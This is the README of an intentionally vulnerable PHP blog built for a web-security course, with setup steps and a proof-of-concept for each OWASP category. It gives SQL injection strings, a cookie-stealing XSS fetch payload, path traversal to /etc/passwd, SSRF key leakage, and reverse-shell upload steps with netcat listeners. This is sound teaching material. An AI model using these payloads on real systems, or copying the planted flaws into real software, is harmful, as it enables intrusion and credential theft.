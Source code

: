 # VulnBlog

A vulnerable PHP/MariaDB web application created for the BIF-5/WEBSEC course.

## Setup
**Note:** `setup.sh` enables apache2 and mariadb at startup.

```
git clone https://github.com/FelixSchuster/VulnBlog
cd VulnBlog
sudo chmod +x setup.sh
sudo ./setup.sh
```

Vulnblog will be available at http://127.0.0.1/vulnblog

## Docker
```
sudo docker build -t vulnblog .
sudo docker run -d -p 80:80 vulnblog
```

## Default Credentials
Database:
- `vulnuser`:`P@ssword`

Webpage:
- `Admin`:`Admin`
- `Felix`:`P@ssword`
- `Alex`:`P@ssword`
- `Bea`:`P@ssword`

Passwords are currently saved in plain text, might change this later on.. or not, it's just another vulnerability to test for.

## Vulnerabilities / Proof of Concept

### A01:2021 – Broken Access Control
In the navbar select 'History' and edit any blogpost.

You can edit blogposts of other users by editing the id parameter in the url.
```
http://127.0.0.1/vulnblog/index.php?page=edit_blogpost.php&id=<EDIT THIS>
```

### A03:2017 – Injection
The login form is sql injectable:
```
http://127.0.0.1/vulnblog/index.php?page=login.php
```

Valid SQL injection queries are:
```
' or 1=1 #
<username>' #
```

### A7:2017-Cross-Site Scripting (XSS)
Create a blogpost including the following payload:
```
<script>alert("XSS");</script>
```

Try hijacking a php session cookie using the payload:
```
<script>fetch('http://127.0.0.1:1234/'+document.cookie);</script>
```

Additionally start a netcat listener using:
```
nc -lvnkp 1234
```

### A04:2013 - Insecure Direct Object References
Try accessing:
```
http://127.0.0.1/vulnblog/index.php?page=../../../../../../../../etc/passwd
```

### A10:2021 - Server-Side Request Forgery (SSRF)
Clicking on Dogs sends a GET Request with an imaginery API Key to the dog ceo API.
The URL looks like that: http://localhost/vulnblog/index.php?page=dogs.php&url=https://dog.ceo/api/breeds/image/random

We can change the url to our own webserver: &url=http://localhost:8888

Start a listener, resend the request and retrieve the secret:
```bash
alex@kali:~/VulnBlog$ nc -lvnp 8888                                  
listening on [any] 8888 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60404
GET / HTTP/1.1
Host: localhost:8888
Authorization: Basic VG9wU2VjcmV0QXBpS2V5ITo=
Accept: */*

alex@kali:~/VulnBlog$ echo "VG9wU2VjcmV0QXBpS2V5ITo=" | base64 -d    
TopSecretApiKey!:
```

### A03:2017 – Sensitive Data Exposure
Vulnblog offers the capability to upload images in blog entries. The access is not protected, this allows users to navigate to the directory and get access to the uploads.
```
http://localhost/vulnblog/uploads/
```

### A03:2007 - Malicious File Execution
Unrestricted file uploads:

You can upload a PHP script to execute malicious code.
Try to upload the php-reverse-shell script to gain access to the server.
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
The file will be executed.

After that you need to get access to the server in order to use the reverse shell.
Use Netcat to listen on port 1234.
```
nc -lvnp 1234
```
Now you can test if you are connected to the web server.
```
whoami
```

## Database
For further information see `./database/db.sql`.

![Database Diagram](./database/db.drawio.png)
